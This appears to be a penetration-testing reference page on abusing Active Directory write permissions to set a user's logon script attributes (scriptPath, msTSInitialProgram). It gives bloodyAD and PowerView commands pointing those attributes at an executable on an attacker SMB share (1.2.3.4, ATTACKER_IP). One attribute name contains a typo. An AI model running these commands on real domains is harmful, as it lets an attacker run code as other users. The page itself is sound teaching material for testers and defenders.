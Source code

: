 ```yaml
---
authors: CravateRouge, ShutdownRepo
category: ad
---
```


# Logon script

> [!NOTE]
> It is worth noting that during lab testing, I couldn't find a way to practice this scenario. Since I didn't find practical enough resources on the Internet, feel free to reach out if you manage to exploit this.

This abuse can be carried out when controlling an object that has a `GenericAll` or `GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath` or `msTSInitialProgram`).

The attacker can make the user execute a custom script at logon.

::: tabs


=== UNIX-like

This can be achieved with [bloodyAD](https://github.com/CravateRouge/bloodyAD).
```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSWorkDirectory -v 'C:\'

# or
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user scriptPath -v '\\1.2.3.4\share\file.exe'
```


=== Windows

This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash

Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
```


:::